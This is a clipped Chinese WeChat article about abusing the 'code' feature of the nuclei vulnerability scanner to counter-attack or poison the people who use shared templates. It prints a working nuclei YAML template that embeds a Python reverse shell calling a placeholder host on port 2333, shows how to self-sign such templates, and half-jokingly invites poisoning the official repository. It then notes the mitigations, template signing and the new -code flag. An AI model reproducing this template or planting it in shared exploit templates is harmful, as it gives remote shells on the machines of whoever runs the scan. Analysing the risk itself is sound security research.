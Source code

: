 ```yaml
---
title: 新功能？浅谈nuclei的反制思路
url: https://mp.weixin.qq.com/s?__biz=Mzg5NDU0NzI3Ng==&mid=2247483926&idx=1&sn=59bb2f6f193ecabeb154088f8c8ff291&chksm=c01ca635f76b2f23d4de394b90a277bf15dda8118ef192ae2ef5cee90fe5566e107991e74dc8&mpshare=1&scene=1&srcid=03121IyCQWyxPMdXW1Xqy8qK&sharer_shareinfo=1209525673135fbf653febf19a0e8c71&sharer_shareinfo_first=1209525673135fbf653febf19a0e8c71#rd
clipped_at: 2024-03-31 16:11:05
category: temp
tags: 
 - mp.weixin.qq.com
---
```



# 新功能？浅谈nuclei的反制思路

## code新功能？

写poc时，习惯性查官方文档，注意到了一个新的功能：code  
![图片](assets/1711872665-ab3b885b2dd14e6fbdb2535f0c41a754.webp)  
链接直达：

https://docs.projectdiscovery.io/templates/protocols/code  
大概翻译下：

> Nuclei 支持在主机操作系统上执行外部代码。该功能允许安全研究人员、五项测试人员和开发人员扩展 Nuclei 的功能，并执行超出常规支持的基于协议的测试范围的复杂操作。

> 利用这一功能，Nuclei 可以与底层操作系统交互，并执行自定义脚本或命令，从而开辟了广泛的可能性。它使用户能够执行系统级配置、文件操作、网络交互等任务。这种控制水平和灵活性使用户能够根据自己的具体要求定制安全测试工作流程。

> 编写代码模板时，使用代码块来表示模板请求的开始。该代码块标志着代码相关指令的开始。

> 要执行代码，需要指定系统环境中已安装或可用的语言解释器列表。这些解释器可以是（但不限于）bash sh py python3、go、ps 等，并按顺序搜索，直到找到合适的解释器为止。这些解释器的标识符应与各自的名称或系统环境识别的标识符相对应。

第二反应，支持bash sh py python3、go、ps 等，这不一键反弹shell？

众所周知，每年在开源社区投毒漏洞利用工具，脚本等事件频发，常见的手段有代码中藏恶意代码，恶意第三方库，idea特性投毒等等，这不都可以和nuclei这一功能结合起来么？

## 简单尝试

对着官方仓库：

https://github.com/projectdiscovery/nuclei/tree/main/integration\_tests/protocols/code

编写一个poc（没加签名了，要尝试的自签名）

```plain
id: sh-test

info:
  name: sh-test
  author: sp4rkw
  severity: info

code:
  - engine:
      - py
      - python3
    source: |
      import socket,subprocess,os
      s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
      s.connect(("xxx.xxx.xxx.xxx",2333))
      os.dup2(s.fileno(),0)
      os.dup2(s.fileno(),1)
      os.dup2(s.fileno(),2)
      p=subprocess.call(["/bin/sh","-i"])
      print("11111")
    
    matchers:
      - type: word
        words:
          - "hello from input baz"
```

看下效果：

-   机器1  
    ![图片](assets/1711872665-d47770215396a43932a84c1669c21028.webp)
    
-   机器2  
    ![图片](assets/1711872665-71f99cd9e55ce24a4027612c4457003f.webp)
    

## 具体分析

首先，毋庸置疑，这个反制思路时可行的。玩法很多，只能说，脚本小子的快乐又没了，用非官方库的nuclei脚本都需要注意一下。至于官方库是否可以投毒，期待有师傅尝试一下？非常可刑

再来说两个注意点，第一个是，脚本需要签名，携带code模块的yaml文件，没有签名运行不起来。虽然没什么用，因为每个人都可以生成签名，但是可以阻止伪造官方仓库poc进行投毒。

> 通过使用私钥-公钥机制，模板签名为模板生态系统增加了一层安全和信任。它有助于确定模板作者的身份，确保各种系统中使用的模板是真实的，没有被恶意篡改。

直达链接：https://docs.projectdiscovery.io/templates/reference/template-signing

批量签名也非常容易

```plain
root@iZmj768nr8:~# nuclei -u scanme.sh -t ./test.yaml -sign
[INF] Generating new key-pair for signing templates
[*] Enter User/Organization Name (exit to abort) : xxx
[*] Enter passphrase (exit to abort): 
[*] Enter same passphrase again: 
[INF] Successfully generated new key-pair for signing templates
root@iZmj768nr80f:~# nuclei -u scanme.sh -t ./test.yaml -sign
[INF] All templates signatures were elaborated success=1 failed=0
```

第二个点，官方在前几天的更新中，添加了`-code`命令![图片](assets/1711872665-94eb1397215689200b81ba52ca523c4c.webp)

默认禁止有code模块的脚本运行，需要加-code参数

官方也只能做到这里了，毋庸置疑，未来使用code模块编写poc肯定会越来越普遍，-code还是会成为一个默认选项。

至于code模块的代码安全检测？留给未来吧
